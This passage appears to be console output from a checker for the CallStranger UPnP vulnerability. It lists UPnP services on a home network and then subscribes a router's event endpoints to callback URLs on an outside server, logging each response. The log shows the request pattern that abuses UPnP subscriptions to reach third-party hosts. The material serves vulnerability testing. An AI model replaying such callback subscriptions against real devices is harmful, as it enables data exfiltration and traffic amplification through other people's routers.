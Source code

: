      XboxOne http://192.168.1.24:2869 ( http://192.168.1.24:2869/upnphost/udhisapi.dll?content=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c )
    
      3 service(s) found for XboxOne
         urn:schemas-upnp-org:service:RenderingControl:1    --> http://192.168.1.24:2869/upnphost/udhisapi.dll?event=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c+urn:upnp-org:serviceId:RenderingControl
         urn:schemas-upnp-org:service:AVTransport:1         --> http://192.168.1.24:2869/upnphost/udhisapi.dll?event=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c+urn:upnp-org:serviceId:AVTransport
         urn:schemas-upnp-org:service:ConnectionManager:1   --> http://192.168.1.24:2869/upnphost/udhisapi.dll?event=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c+urn:upnp-org:serviceId:ConnectionManager
    
     Total 20 service(s) found. do you want to continue to VERIFY if service(s) are vulnerable?
    Be careful: This operation needs Internet access and may transfer data about devices over network. Data encrypted on local and we cant see which services are vulnerable but ISPs and other elements may be able to inspect HTTP headers created by UPnP device. Because most of UPnPstack do not allow SSL connection we can not use it.
    Do you want to continue? y/N y
    Successfully get session:nae9lqq3keg79l3qei9ahohvqe
    Symmetric random key for encryption: b'yy8e8uAg4kV-oSAuvdxrJBPwxMHx0JuEm1BsYXCzBYE='  We do not send this value to server so we can not see which services are vulnerable. All confirmation process is done on client side
    Calling stranger for  http://192.168.1.1:37215/evt/Layer3Forwarding_1 with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNsB6Kv35geEsxbkkrAgED5So1wLhWURjcFwkyJ9h7w21BtUmbBmzAQ_YTgN-168MatiFy-skmKyTcleLkVKn5iv6xhEcY5DGiH_MJbeeZ77_AmgM_UF4dqqXsIdHJmROk&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.1:37215/evt/Layer3Forwarding_1 seems successfull
    {'Server': 'ATP UPnP Core', 'TIMEOUT': 'Second-1800', 'SID': 'uuid:50898211-6467-9505-1115-309761531064', 'Date': 'Mon, 08 Jun 2020 07:15:22 GMT', 'Content-Length': '0'}
    
    Calling stranger for  http://192.168.1.1:37215/evt/WANCommonInterfaceConfig_1 with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWN7k769GzqT9VpIDZr2e93mpy8uz70lvmdxGSssRVWvn6Q8nGvA7nmKEVU4nWTA5c4eelJ7T2U8hGxvwVLlTl15LZ2_XH8boVyb45wS5oPB93CdwqUU0T1hHDDY5r4AFEjcmhHvYtx8RC_tAzm2eRk7w==&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.1:37215/evt/WANCommonInterfaceConfig_1 seems successfull
    {'Server': 'ATP UPnP Core', 'TIMEOUT': 'Second-1800', 'SID': 'uuid:07788594-5417-8052-8862-186260512738', 'Date': 'Mon, 08 Jun 2020 07:15:22 GMT', 'Content-Length': '0'}
    
    Calling stranger for  http://192.168.1.1:37215/evt/WANPPPConnection_1 with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWN5YhNQVAQagPd3LpBocI7jwkv8caPKiPAfeeD5X1uNSFZ7mfTWB3QwFcsVcbFln5JrVD3mlvHzD3UrYUC0VK_uRHd_c2K-m6h_Od2NUNB1dduNNMh7rMa0a2Wlq8WxxZn&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.1:37215/evt/WANPPPConnection_1 seems successfull
    {'Server': 'ATP UPnP Core', 'TIMEOUT': 'Second-1800', 'SID': 'uuid:82456222-8470-4699-7387-649194725316', 'Date': 'Mon, 08 Jun 2020 07:15:22 GMT', 'Content-Length': '0'}
    
    Calling stranger for  http://192.168.1.1:37215/evt/WANEthernetLinkConfig_1 with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNRSj2ZczT5L4ZJvtQtwtyQaQmiYBdMAP96q-x1eCWLXAwGIIHMwZ6wvkPtlI0eAaYQHfOHqxrK2PvyYjKveFA9sbo4iyZ0vQKEyxStzRPCLQep4s0c0Lu53em19SP9T0S6FwCn8ISqe3RhloXMlA6nw==&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.1:37215/evt/WANEthernetLinkConfig_1 seems successfull
    {'Server': 'ATP UPnP Core', 'TIMEOUT': 'Second-1800', 'SID': 'uuid:97714486-6046-2730-7119-835081292303', 'Date': 'Mon, 08 Jun 2020 07:15:23 GMT', 'Content-Length': '0'}
    
    Calling stranger for  http://192.168.1.1:37215/evt/LANHostConfigManagement_1 with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNM3m3GW8-4btkYqaWTStBESHNmhQqZwEDd8jRONZyHcWwp8aQDkTpIk__0qv0m7vLuRdfCVt0P5n3oRcbnUXvUh3BPZ1ZwRfXtFyWr3PjKcIVbvkGj4EWD2pFKeiBEFDfZKRvR0pzFnqdxdiUuSRytQ==&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.1:37215/evt/LANHostConfigManagement_1 failed with status code:501
    {'Server': 'ATP UPnP Core', 'Date': 'Mon, 08 Jun 2020 07:15:23 GMT', 'Content-Length': '0'}
    